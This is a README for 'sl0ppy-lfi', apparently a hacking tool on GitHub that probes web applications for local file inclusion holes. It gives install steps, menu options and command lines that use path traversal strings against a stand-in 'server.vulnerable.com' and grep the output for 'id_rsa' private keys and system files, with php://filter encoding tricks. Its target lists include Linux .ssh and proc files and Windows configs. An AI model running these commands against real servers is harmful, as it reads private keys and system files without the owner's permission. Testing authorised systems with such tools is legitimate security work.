 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encodiing! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the read -p submit system user 

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 


# Usage 
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. 
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# Usage php://Filther-encoding 
* ./sl0ppy-lfi-fw 
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
